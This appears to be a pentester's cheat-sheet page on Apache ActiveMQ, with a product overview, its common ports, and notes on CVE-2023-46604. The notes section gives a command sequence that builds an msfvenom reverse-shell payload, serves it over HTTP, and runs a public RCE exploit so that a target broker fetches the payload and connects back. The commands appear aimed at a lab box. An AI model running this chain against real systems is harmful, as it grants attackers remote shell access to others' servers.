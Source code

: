 # Apache ActiveMQ

<div class="row row-cols-lg-2"><div>

Apache [ActiveMQ](https://activemq.apache.org/) is an open source [message broker](https://en.wikipedia.org/wiki/Message_broker) written in Java. It support multiple protocols such as JMS, MQTT, STOMP, AMQP.

* [Classic](https://github.com/apache/activemq) <small>(2.2k ⭐)</small> / [Artemis](https://github.com/apache/activemq-artemis) <small>(0.9k ⭐)</small>
* [Artemis Documentation](https://activemq.apache.org/components/artemis/documentation/)
* ActiveMQ Artemis is the next gen version

It's commonly used when we need to connect applications that are using different protocols.
</div><div>

**Common ports** 🐊

* 1883 <small>(TCP, MQTT)</small>
* 5671 <small>(TCP, SSL/TLS AMQP)</small>
* 5672 <small>(TCP, AMQP)</small>
* 8161 <small>(TCP, Admin Web)</small>
* 8883 <small>(TCP, SSL/TLS MQTT)</small>
* 61613 <small>(TCP, STOMP)</small>
* 61614 <small>(TCP, SSL/TLS STOMP)</small>
* 61616 <small>(TCP, ActiveMQ OpenWire transport)</small>
</div></div>

<hr class="sep-both">

## ActiveMQ Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

* [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604): vulnerability in ActiveMQ OpenWire Transport leading to remote code execution

```shell!

$ git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git cve-2023-46604
$ cd cve-2023-46604
$ sed -i 's/0.0.0.0/x.y.z.t/g' poc-linux.xml
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 RHOSTS=broker.htb -f elf -o test.elf
$ go build
$ python -m http.server 8001 # in another terminal
$ ./ActiveMQ-RCE -i <target_ip> -u http://<your_IP>:8001/poc-linux.xml
```
</div><div>
</div></div>
